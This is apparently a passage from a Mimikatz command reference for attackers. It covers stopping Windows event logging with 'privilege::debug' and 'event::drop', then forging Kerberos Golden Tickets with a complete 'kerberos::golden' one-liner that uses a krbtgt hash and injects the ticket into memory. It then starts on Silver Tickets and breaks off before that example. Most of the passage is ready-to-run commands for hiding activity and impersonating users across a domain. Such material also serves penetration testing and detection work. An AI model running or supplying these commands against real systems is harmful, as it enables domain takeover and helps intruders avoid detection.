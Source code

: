 Event log tampering in Mimikatz involves two primary actions: clearing event logs and patching the Event service to prevent logging of new events. Below are the commands for performing these actions:

#### Clearing Event Logs

- **Command**: This action is aimed at deleting the event logs, making it harder to track malicious activities.
- Mimikatz does not provide a direct command in its standard documentation for clearing event logs directly via its command line. However, event log manipulation typically involves using system tools or scripts outside of Mimikatz to clear specific logs (e.g., using PowerShell or Windows Event Viewer).

#### Experimental Feature: Patching the Event Service

- **Command**: `event::drop`
- This experimental command is designed to modify the Event Logging Service's behavior, effectively preventing it from recording new events.
- Example: `mimikatz "privilege::debug" "event::drop" exit`

- The `privilege::debug` command ensures that Mimikatz operates with the necessary privileges to modify system services.
- The `event::drop` command then patches the Event Logging service.


### Kerberos Ticket Attacks

### Golden Ticket Creation

A Golden Ticket allows for domain-wide access impersonation. Key command and parameters:

- Command: `kerberos::golden`
- Parameters:
  - `/domain`: The domain name.
  - `/sid`: The domain's Security Identifier (SID).
  - `/user`: The username to impersonate.
  - `/krbtgt`: The NTLM hash of the domain's KDC service account.
  - `/ptt`: Directly injects the ticket into memory.
  - `/ticket`: Saves the ticket for later use.

Example:

```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```

### Silver Ticket Creation

Silver Tickets grant access to specific services. Key command and parameters:

- Command: Similar to Golden Ticket but targets specific services.
- Parameters:
  - `/service`: The service to target (e.g., cifs, http).
  - Other parameters similar to Golden Ticket.

Example:
